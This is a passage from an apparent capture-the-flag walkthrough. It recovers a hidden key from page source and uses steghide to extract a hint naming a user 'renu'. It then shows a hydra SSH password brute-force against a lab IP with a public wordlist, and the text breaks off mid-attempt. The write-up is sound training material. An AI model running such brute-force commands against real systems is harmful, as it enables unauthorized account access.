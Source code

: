 ```http




<!..Secret Key 3xtr4ctd4t4 >

```

> We got a 'secret' key with the value `3xtr4ctd4t4`.
{: .prompt-info }

## combining things
From the `ftp` service we got a file named `trytofind.jpg` which indicates that maybe some kind of steganography is used here.  
Additionally we know a secret key with the value `3xtr4ctd4t4`.   
  
If you research a bit you soon will see a tool named `steghide` which uses a secret key to hide information in pictures. Let us try to extract information from the picture `trytofind.jpg` with the secret key `3xtr4ctd4t4`.

```bash
$ steghide extract -sf trytofind.jpg                                                                                                                                                                                                  1 ⨯
Enter passphrase: 
wrote extracted data to "data.txt".
```

It worked! Lets have a look what data was extracted.
```bash
$ cat data.txt  
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

---

# exploitation
## `ssh` brute force
Now we know that the admin has the name `renu` and that he uses a weak password. Lets try to brute force his `ssh` account with `hydra`.
```bash
$ hydra -V -l renu -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100.txt 192.168.89.230 ssh                                                                                                                        130 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-13 16:02:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:1/p:100), ~7 tries per task
[DATA] attacking ssh://192.168.89.230:22/
[ATTEMPT] target 192.168.89.230 - login "renu" - pass "123456" - 1 of 100 [child 0] (0/0)
[ATTEMPT] target 192.168.89.230 - login "renu" - pass "password" - 2 of 100 [child 1] (0/0)
[ATTEMPT] target 192.168.89.230 - login "renu" - pass "12345678" - 3 of 100 [child 2] (0/0)
[ATTEMPT] target 192.168.89.230 - login "renu" - pass "qwerty" - 4 of 100 [child 3] (0/0)
...
[ATTEMPT] target 192.168.89.230 - login "renu" - pass "yankees" - 95 of 101 [child 4] (0/1)
[ATTEMPT] target 192.168.89.230 - login "renu" - pass "987654321" - 96 of 101 [child 7] (0/1)
```